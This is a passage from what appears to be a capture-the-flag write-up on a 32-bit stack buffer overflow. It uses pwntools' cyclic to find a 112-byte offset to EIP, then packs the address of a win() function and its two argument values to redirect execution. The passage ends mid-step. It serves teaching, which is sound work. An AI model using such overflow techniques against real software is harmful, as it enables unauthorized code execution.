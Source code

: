 ```
cyclic -l daab
```

Here is the result

```
112
```

So we need to generate 112 characters to arrive to the `eip` pointer, then give it the address we want so it jumbs to it after finishing with the vuln function.

```
cyclic 112
```

```
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaab
```

Now that we have th information we needed, we can create our script that exploit the vulnerability in the source code. we will be using `pwn` tools for that : 

 - First, get the byte version of the address found of the `win()` function, we need also to get the byte version of the arguments so we can pass them accordingly with the address :

```python
# Python 3.10.8 (main, Oct 24 2022, 10:07:16) [GCC 12.2.0] on linux
# Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import *
>>> p32(0x08049296)
b'\x96\x92\x04\x08'
>>> p32(0xCAFEF00D)
b'\r\xf0\xfe\xca'
>>> p32(0xF00DF00D)
b'\r\xf0\r\xf0'
```

**Notes :**

 - The `\r` character will not be read as a hex value but as a chariot return, to have a correct reading from the program, we need to translate it manually :

   - `\r` => `\x0d`

 - You may need to do some local tests on your computer by changing the given source code, to do that follow these steps :
   - Check for the file ELF (EXEC) (Executable and Linkable Format) :

```
└─$ file vuln     
vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=1c57f0cbd109ed51024baf11930a5364186c28df, for GNU/Linux 3.2.0, not stripped
```
   - Indeed, we need a 32-bits compiler. So, after modifyinh your `vuln.c` code, here is how you compile it :
